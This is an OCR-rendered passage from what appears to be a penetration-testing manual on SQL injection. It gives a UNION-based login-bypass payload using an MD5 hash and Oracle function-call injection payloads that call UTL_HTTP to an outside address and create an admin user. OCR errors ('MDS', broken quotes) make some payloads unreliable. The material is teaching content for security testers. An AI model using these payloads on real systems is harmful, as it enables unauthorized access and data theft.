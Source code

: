 - You may bypass UNION results with a known password and the MDS hash of the supplied password.
- The web application will compare your password and the supplied MDS hash instead of the MDS from the database.

Example:

Username: admin

Password: 1234 ' AND 1=0 UNION ALL SELECT 'admin',
'81dc9bdb52d04dc20036dbd8313ed055
81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)



### Perform a Function-Call Injection Attack
**Function-Call Injection Attack**
In this attack, the attackers insert database functions with the malicious SQL queries to manipulate the data and OS calls in a database. This attack helps attackers to extract database information, compromise database, modify the database passwords, and perform illegal transactions.

As penetration testers, you must execute the function call injection attacks using custom or database functions to test the database vulnerabilities. You can use the following functions to make calls to the operating system:

For example, the Java method that can help in executing the OS command is:

```
Runtime.getRuntime() .exec()
```


You can try to exploit the following SQL query:

```
SELECT TRANSLATE ('user
input' , '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ',0123456789') FROM dual;
```


Try to exploit the above query as shown in the following scenarios:

- Scenario 1: Try to retrieve information from the database server:

  ```
  SELECT TRANSLATE('' || UTL_HTTP.REQUEST
  (‘http://192.168.1.1/') || '',
  ‘0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ', '0123456789') FROM dual;
  ```

- Scenario 2: Try to create new users:

  ```
  SELECT TRANSLATE ('' || myappadmin.adduser
  ('admin', 'newpass') || '',
  "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ', '0123456789') FROM dual;
  ```

  

### Perform a Buffer Overflow Attack
The attackers perform buffer overflow attacks on the web application database using SQL injection. You must check the following standard database functions that are prone to buffer overflow attacks:
